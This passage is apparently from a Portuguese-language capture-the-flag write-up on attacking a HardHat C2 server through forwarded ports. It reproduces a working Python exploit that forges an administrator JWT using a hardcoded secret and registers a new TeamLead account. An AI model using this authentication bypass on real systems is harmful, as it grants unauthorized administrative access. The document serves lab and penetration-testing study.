 Então podemos acessar essas portas na nossa máquina local.
![[Pasted image 20250325094729.png]]

O hardhat c2 é um ``Framework C2`` para ``Red Teams``, após uma breve pesquisa, achei um post sobre algumas vulnerabilidades conhecidas. 
![[Pasted image 20250325095500.png]]

>[!info]
>Separe um tempo para ler esse [Post](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7), ele apresenta muita coisa legal.

O script fornecido irá criar um novo usuário `sth_pentest` com a senha `sth_pentest` e  com a função de ``Team Lead``. A porta ``5000`` é utilizada pelo script, então foi útil termos mandado ela também.

**harhatc2_exploit.py**
```python
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests
 
rhost = '127.0.0.1:5000'
 
# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()
 
expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
 
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
 
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```
